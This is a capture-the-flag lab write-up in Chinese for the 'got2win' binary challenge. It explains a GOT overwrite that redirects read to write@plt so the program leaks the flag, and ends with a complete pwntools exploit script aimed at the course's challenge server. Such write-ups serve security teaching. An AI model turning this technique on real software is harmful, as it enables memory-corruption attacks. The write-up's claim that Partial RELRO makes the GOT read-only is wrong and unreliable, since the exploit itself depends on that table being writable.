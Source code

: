 # lab_got2win

1. 先用 checksec 檢查這個程式，RELRO 是 Partial RELRO ，代表.got 是唯讀。

![截圖 2022-12-01 下午8.02.55.png](lab_got2win%208d64de70c763419e8cb7126a7a246a3d/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25888.02.55.png)

1. 用objdump -R chal 稍微看一下 GOT 的資訊，這邊可以直接看到  function 的 Dynamic Relocation。

![截圖 2022-12-01 下午8.01.31.png](lab_got2win%208d64de70c763419e8cb7126a7a246a3d/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25888.01.31.png)

1. 接下來檢視檔案的 Source code，可以看到出這個檔案的行爲，會先將 “home/chal/flag” 檔案讀到 flag[0x30]，然後在“Overwrite addr“ 字串輸出後，你可以輸入一個 addr，“Overwrite 8 bytes valus : “字串輸入一個值，因為題目有說是 got2win，所以這題應該是可以利用這兩個 input 去蓋 got 。

![截圖 2022-12-01 下午8.07.23.png](lab_got2win%208d64de70c763419e8cb7126a7a246a3d/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25888.07.23.png)

1. 然後會發現在 printf(”Give me fake flag: “); 後面一行的 read是read(1,flag,0x30 )，而這邊如果把 read 改成 write.plt 的話，這邊就會變成 write(1,flag,0x30) ，然後就會變成 stdout 輸出題目的 flag 。所以接下來我們只要找到 read got 的位址及 write glt 的位址，就可以竄改 function 的 GOT。而 read got 可以從 table 中找到是在 0x404038，從 gdb 中能找到 write@plt 的位址是在 0x4010c0，

![截圖 2022-12-01 下午8.01.31.png](lab_got2win%208d64de70c763419e8cb7126a7a246a3d/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25888.01.31.png)

![截圖 2022-12-01 下午8.42.07.png](lab_got2win%208d64de70c763419e8cb7126a7a246a3d/%25E6%2588%25AA%25E5%259C%2596_2022-12-01_%25E4%25B8%258B%25E5%258D%25888.42.07.png)

5.最後將 payload 送出就能得到 ctf{FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}

```python
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = remote('edu-ctf.zoolab.org', 10004)

read_got = 0x404038
write_plt = 0x4010c0

r.sendlineafter('Overwrite addr: ', str(read_got))
r.sendafter('Overwrite 8 bytes value: ',p64(write_plt))

r.interactive()
```